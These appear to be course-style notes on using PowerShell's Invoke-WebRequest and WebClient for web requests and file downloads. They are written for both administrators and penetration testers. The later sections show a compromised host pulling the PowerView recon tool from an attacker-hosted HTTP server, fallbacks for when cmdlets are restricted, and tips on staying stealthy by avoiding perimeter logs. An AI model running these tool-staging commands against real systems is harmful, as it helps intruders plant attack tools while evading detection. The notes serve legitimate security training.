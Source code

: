 ```yaml
---
title: 16. Interacting with The Web
updated: 2025-06-12 17:50:20Z
created: 2025-06-12 03:54:26Z
---
```


## Interacting With the Web Using PowerShell

PowerShell is a powerful tool not only for managing systems but also for interacting with web resources—both on the Internet and within internal networks. As system administrators, we can automate software updates, application installations, and configurations across local and remote systems—without relying on graphical interfaces or manual downloads. This saves time and allows us to administer systems remotely, without having to use RDP or sit in front of the machine.

For penetration testers, PowerShell also provides a fast and efficient way to bring tools into an environment and exfiltrate data, assuming an infrastructure is in place to receive it. In this section, we'll explore several ways to use PowerShell to interact with web content, with a primary focus on the `Invoke-WebRequest` cmdlet.

* * *

## How PowerShell Interacts With the Web

PowerShell’s primary tool for web interaction is the `Invoke-WebRequest` cmdlet. This cmdlet allows you to:

- Make HTTP and HTTPS requests (GET, POST, etc.)
    
- Download files
    
- Parse HTML content (forms, links, images, etc.)
    
- Authenticate with websites
    
- Maintain session state
    

### Aliases

- `Invoke-WebRequest` is aliased to `iwr`, `wget`, and `curl`—useful for those familiar with Linux CLI tools like `wget` and `curl`.

To see the available parameters and capabilities:

`Get-Help Invoke-WebRequest`

* * *

## Example: Basic Web Request

You can perform a basic GET request using:

`Invoke-WebRequest -Uri "https://example.com/page.html" -Method GET`

To inspect the object returned:

`Invoke-WebRequest -Uri "https://example.com/page.html" | Get-Member`

This returns a rich object containing various properties like:

- `.Content` – The page’s HTML content
    
- `.Headers` – HTTP headers
    
- `.Images`, `.Links`, `.Forms` – Parsed HTML elements
    
- `.StatusCode` – HTTP status (e.g., 200 OK)
    

* * *

## Filtering Specific Data

You can extract specific parts of the response object. For example, to list only the images on a page:

`(Invoke-WebRequest -Uri "https://example.com/page.html").Images`

Or to view the raw HTML content:

`(Invoke-WebRequest -Uri "https://example.com/page.html").RawContent`

This is useful for extracting data like names, emails, links, or other recon-worthy information.

* * *

## Downloading Files With PowerShell

Whether for administration, red teaming, or recovery, downloading files is a common task. `Invoke-WebRequest` makes this easy.

### Example: Download PowerView.ps1

`Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "C:\PowerView.ps1"`

This downloads the file to `C:\PowerView.ps1`. You can use this same method to pull files from internal web servers, reducing the chances of detection during a pentest.

* * *

## Hosting Tools Locally for Download

During engagements, it’s often useful to host files on your own attack machine and have the compromised host download them.

### 1\. On the Attack Machine:

Ensure the file exists:

`ls | grep PowerView.ps1`

Start a Python HTTP server:

`python3 -m http.server 8000`

### 2\. On the Target (Windows) Machine:

Download the file using PowerShell:

`Invoke-WebRequest -Uri "http://<attack_host_ip>:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"`

This avoids external traffic and keeps activity within the internal network.

* * *

## If `Invoke-WebRequest` is Disabled

In some environments, `Invoke-WebRequest` may be restricted. An alternative is using the .NET `WebClient` class.

### Example:

`(New-Object Net.WebClient).DownloadFile("https://example.com/tool.zip", "C:\tool.zip")`

This approach works similarly:

- The first argument is the URL.
    
- The second is the local file path for saving.
    

You can use this to quietly retrieve files even when PowerShell cmdlets are locked down—though this is still noisy from a logging perspective.

* * *

## Final Notes

While we've just scratched the surface, PowerShell offers numerous ways to interact with web resources. Whether for administration or offensive security tasks, tools like `Invoke-WebRequest` and `.Net.WebClient` make web interactions scriptable and efficient.

Just remember:

- Internal transfers reduce perimeter logs and increase stealth.
    
- Web interactions (especially downloads) will often leave traces in system and firewall logs.
    
- Know your alternatives and use them appropriately depending on your goal and context.